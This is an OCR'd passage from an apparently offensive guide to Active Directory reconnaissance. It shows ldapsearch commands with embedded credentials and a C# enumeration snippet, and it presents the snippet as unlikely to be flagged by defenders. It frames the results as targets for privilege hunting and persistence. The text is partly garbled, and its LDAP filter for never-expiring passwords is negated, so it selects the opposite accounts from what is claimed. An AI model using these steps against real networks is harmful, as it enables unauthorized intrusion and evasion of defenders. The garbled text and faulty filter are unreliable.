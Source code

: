 That pulls every user object. What is it cleaner?

\begin{verbatim}
%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\lowprivuser" -w 'Password123!' -b "dc=corp,dc=local" "(objectCategory=person)" sAMAccountName displayName description
\end{verbatim}

That gives you usernames, real names, and descriptions. Those descriptions? Often goldmines. Admins love to write things like this:

\begin{itemize}
    \item Backup accounts for DCs
    \item Service accounts for SQL Server
    \item Temporary Domain Admin privileges
\end{itemize}

Read them. Flag them. Hunt them.

You can even pull password policy information to find accounts that \textit{ do not expire passwords:}

\begin{verbatim}
%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}%\lowprivuser" -w 'Password123!' -b "dc=corp,dc=local" "(!userAccountControl:1.2.840.113556.1.4.803:=65536)"
\end{verbatim}

That’s how you find accounts with the \texttt{DON'T_EXPIRE_PASSWORD} flag set. Perfect for persistence.

If you are using C\# or .NET payloads, use \texttt{System.DirectoryServices} to script it. For example, using \texttt{System.DirectoryServices;}

\begin{verbatim}
DirectoryEntry entry = new DirectoryEntry("LDAP://DC=corp,DC=local");
DirectorySearcher searcher = new DirectorySearcher(entry);
searcher.Filter = "(objectClass=user)";
foreach (SearchResult result in searcher.FindAll()) \{
    Console.WriteLine(result.Properties["samaccountname"][0]);
\}
\end{verbatim}

Does it look clean? Yes. Will it be flagged? Probably not. It’s all native API use.

Now from here. Your goal is simple: build a short list. List who are high-value users. Who are the loud admins? Who runs scheduled tasks or owns GPOs? You will use this list to guide every move that comes here and afterwards.

